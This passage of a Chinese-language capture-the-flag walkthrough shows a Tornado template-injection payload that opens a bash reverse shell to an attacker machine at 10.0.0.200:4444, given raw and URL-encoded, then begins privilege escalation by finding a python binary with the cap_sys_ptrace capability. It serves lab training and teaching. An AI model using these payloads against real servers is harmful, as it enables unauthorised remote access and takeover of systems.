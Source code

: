 ![截屏2021-09-20 下午5.53.30](https://tva1.sinaimg.cn/large/008i3skNly1gun8rccry8j61140u0gpq02.jpg)果然报错了!仔细看看,这是tornado的模版注入漏洞,我们编写一个payload执行python反弹shell代码!

`{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/10.0.0.200/4444 0>&1"')}}`

我们使用这条指令向kali的4444端口反弹shell!

注意哦,内容要先经过url编码再提交!

`%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.200%2F4444%200%3E%261%22')%7D%7D`

![截屏2021-09-20 下午5.58.43](https://tva1.sinaimg.cn/large/008i3skNly1gun8woc9mxj617o04qmy302.jpg)

收获普通shell!

## 提权

再接再厉,我们还是老三样,uname -a,sudo -l,suid

![截屏2021-09-20 下午6.08.11](https://tva1.sinaimg.cn/large/008i3skNly1gun96jsd5fj61e407ggna02.jpg)

版本很新,看来上次的“ubuntu大杀器”也是无能为力了

我们介绍一种新的提权方法

### Capabilities

我们作为一个普通用户,想要使用root权限做事,就会用到sudo

我们想要一个程序以其创建者的权限执行,于是用了suid

同样的,Capabilities是linux中的一种权限管理方式,这就像是suid一样,是程序的标识

就比如我们使用wireshark,需要用到底层的网络管理功能,往往需要root权限,但是它又只需要关于网络的权限,而不是所有的root权限.于是我们就给wireshark关于网络的capability标识,这就把权限十分细致的划分开来了!

使用命令`gatcap / -r`

![截屏2021-09-20 下午6.12.22](https://tva1.sinaimg.cn/large/008i3skNly1gun9au96izj61eq070q5a02.jpg)

这就是为什么我们不加上`2>/dev/null`的原因.有时候执行命令加上了这一句,反而不知道问题出在哪,各位留个心眼吧!

我们使用`/sbin/getcap / -r 2>/dev/null`查找拥有capabilities的机器

![截屏2021-09-20 下午6.18.07](https://tva1.sinaimg.cn/large/008i3skNly1gun9gu3hjjj61d206gwgh02.jpg)

好像都没有什么特殊的...除了python的这一条!

`cap_sys_ptrace+ep`,我们搜一下~

![截屏2021-09-20 下午6.21.15](https://tva1.sinaimg.cn/large/008i3skNly1gun9k3qgmyj61be0j4q6m02.jpg)

学会运用搜索引擎是多么重要啊!

大家一定要学会多搜索,多思考~

我们使用inject.py脚本进行注入
